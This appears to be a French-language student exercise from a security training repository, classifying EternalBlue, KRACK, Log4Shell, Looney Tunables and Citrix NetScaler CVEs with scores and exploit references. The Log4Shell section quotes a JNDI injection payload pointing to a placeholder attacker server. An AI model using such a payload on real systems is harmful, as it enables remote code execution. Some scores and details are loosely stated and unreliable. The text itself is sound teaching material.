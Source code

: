 # Initiation à la classification des vulnérabilités

[Brief : 02-MESP-Initiation-Vuln](https://github.com/Aif4thah/Dojo-101/blob/main/Dojo-101-Apprentissage/02-MESP-Initiation-Vuln.md)

## Vulnérabilités

---

### 1. **Eternal - Blue** CVE-2017-0144

**Description :** Dans le serveur SMBv1 dans des différentes systèmes Windows (cité dans les éléments d’infrastructure concernés) Permet aux attaquants d'exécuter du code arbitraire avec des packets qui ont été modifié, connues comme ""Windows SMB Remote Code Execution Vulnerability."

**Éléments d'infrastructure concernés:**

  - Vista SP2
  - Windows Server 2008 SP2 and R2 SP1
  - Windows 7 SP1
  - Windows 8.1
  - Windows Server 2012 Gold and R2
  - Windows RT 8.1; and Windows 10 Gold, 1511, and 1607
  - Windows Server 2016

**Score base CVSS :**

  - Résultat : **0%** Car pas de serveur SBMv1 (Le score est calculé par rapport aux infrastructures internes de l’établissement où je develop mon activité).

**Score EPSS :** à la date **2025-10-23** il est de **94.32%**

**Exploit :**

  - Quelques references des exploit qui ont été publié:
    - exploit-db.com: 42030
    - exploit-db.com: 42031
    - exploit-db.com: 41891

### 2. **KRACK** - CVE-2017-13077 à 13082, 13084, 13086, 13087 et 13088

**Description :** C'est un attaque par rejeu sur le protocole WI-FI, découverte en 2016. Par une action repetitive pendant le handshake un attaquant finis pour avoir la keychain pour déchiffrer le traffic.

**Éléments d'infrastructure concernés:**

  - Les dispositif connectés en WIFI.

**Score base CVSS** : 6.8%

**Score EPSS** : 0.77%  (selon https://epsslookuptool.com/)

**Exploit :** L’exploitation de ces vulnérabilités peut entraîner le déchiffrement, la réutilisation de paquets (packet replay), le détournement de connexions TCP, l’injection de contenu HTTP, et d’autres conséquences. Par exemple : CVE-2017-13087 — réinstallation de la GTK lors du traitement d’une réponse WNM Sleep Mode (Wireless Network Management).

### 2. **log4shell** CVE-2021-44228

**Description :** C'était un Zero-day qui permettais d'executer de code Java arbitraire. Ce si involucre le service de logging Apache : Log4j (gère les traces et des historiques d'applications).
  
**Eléments d'infrastructure concernés:**
  - Des serveurs, ou ordinateurs qui ont les services concernés :
    - iCloud
    - L'édition Java de Minecraft
    - Steam
**Score base CVSS :** "L'Apache Software Foundation, dont Log4j est un projet, a attribué à Log4Shell une note CVSS de 10, la note la plus élevée possible"

**Score EPSS :** 94.36%

**Exploit :**

  - Peut être utilisée avec des charges utiles par exemple de la forme  `${jndi:ldap://serveur_pirate/message_malveillant} `
    - Génère des appels via le protocole LDAP ou DNS vers un serveur contrôle par un tiers.

### 3. **Looney-tenables** CVE-2023-4911

**Description :** C'est une vulnérabilité dans la libraire GNU-C, plus spécifiquement dans la variable d’environnement `GLIBC_TUNABLES` qui permet d'escalader les privileges jusqu'au root.

**Éléments d'infrastructure concernés:**
  - glibc 2.34 :
    -  INstallations par default de Fedora 37 and 38.
    -  Ubuntu 22.04 and 23.04
    -  Debian 12 and 13.

**Score EPSS** : 78.36%

**Exploit :**
  - Avec un script, par exemple : https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt
  

### 4. **Vulnérabilité dans Citrix NetScaler ADC et NetScaler Gateway** CVE-2025-7775 CVE-2025-7776 CVE-2025-8424 

**Description :** Permet une exécution de code arbitraire à distance et affecte toutes les versions de Citrix NetScaler ADC et NetScaler Gateway, dans certaines configurations détaillées par l'éditeur. La vulnérabilité est activement exploitée. https://www.cert.ssi.gouv.fr/alerte/CERTFR-2025-ALE-012/

- Versions concernés:
    - NetScaler ADC and NetScaler Gateway 14.1 BEFORE 14.1-47.48
    - NetScaler ADC and NetScaler Gateway 13.1 BEFORE 13.1-59.22
    - NetScaler ADC 13.1-FIPS and NDcPP BEFORE 13.1-37.241-FIPS and NDcPP
    - NetScaler ADC 12.1-FIPS and NDcPP BEFORE 12.1-55.330-FIPS and NDcPP

**Éléments d'infrastructure concernés:**
  - Dans mon environnement de travail en particulier, le service comptable utilise Citrix pour se connecter au logiciel SaaS de comptabilité Berger-Levrault. Le fournisseur a changé d’application pour la connexion à distance afin de mitiger, je suppose, l’impact des potentielles vulnérabilités.
  
**CVSS v4.0 Base Score:**

- CVE-2025-7775 : 9.2 %
- CVE-2025-7776 : 8.8 %
- CVE-2025-8424 : 8.7 %

**Exploits** pour CVE-2025-7775 ont été observées.
  
Source du support Citrix : https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX694938

